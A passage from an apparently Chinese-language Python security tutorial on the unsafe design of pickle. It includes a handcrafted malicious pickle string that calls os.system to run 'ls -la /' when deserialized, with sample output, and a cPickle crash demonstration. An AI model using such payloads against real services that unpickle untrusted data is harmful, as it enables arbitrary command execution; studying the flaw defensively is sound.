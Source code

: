 这个问题在最新的Python 2.7.x版本中已经解决，而且避免使用像"**if 0:**"，"**if False:**"，"**while 0:**"，"**while False:**"之类的结构。

0x04 Files —> sys, os, io, pickle, cpickl
=========================================

* * *

pickle
------

```
import pickle   
import io   
badstring = "cos\nsystem\n(S'ls -la /'\ntR."    
badfile = "./pickle.sec"    
with io.open(badfile, 'wb') as w:   
    w.write(badstring)  
obj = pickle.load(open(badfile))    
print "== Object =="    
print repr(obj)

```

这里构造恶意序列化字符串，以二进制的形式写入文件中，使用`pickle.load()`函数加载进行反序列化，还原出原始python对象，从而使用os的`system()`函数来执行命令"`ls -la /`"。由于`pickle`这样**不**安全的设计，就可以借此来**执行命令**了。代码输出结果如下：

*   Linux
    
    ```
    total 104
    drwxr-xr-x  23 root root  4096 Oct 20 11:19 .
    drwxr-xr-x  23 root root  4096 Oct 20 11:19 ..
    drwxr-xr-x   2 root root  4096 Oct  4 00:05 bin
    drwxr-xr-x   4 root root  4096 Oct  4 00:07 boot
    ...
    
    ```
*   Mac OS X
    
    ```
    total 16492 
    drwxr-xr-x    31 root wheel     1122 12 Oct 18:58 . 
    drwxr-xr-x    31 root wheel     1122 12 Oct 18:58 ..    
    drwxrwxr-x+  122 root wheel     4148 10 Oct 15:19 Applications
    drwxr-xr-x+   68 root wheel     2312  3 Sep 10:47 Library
    ...
    
    ```

pickle / cPickle
----------------

```
import cPickle  
import traceback    
import sys  
# bignum = int((2**31)-1) # 2147483647 -> OK    
bignum = int(2**31) # 2147483648 -> Max 32bit -> Crash  
random_string = os.urandom(bignum)  
print ("STRING-LENGTH-1=%r") % (len(random_string)) 
fout = open('test.pickle', 'wb')    
try:    
    cPickle.dump(random_string, fout)   
except Exception as e:  
    print "###### ERROR-WRITE ######"   
    print sys.exc_info()[0] 
    raise   
fout.close()    
```
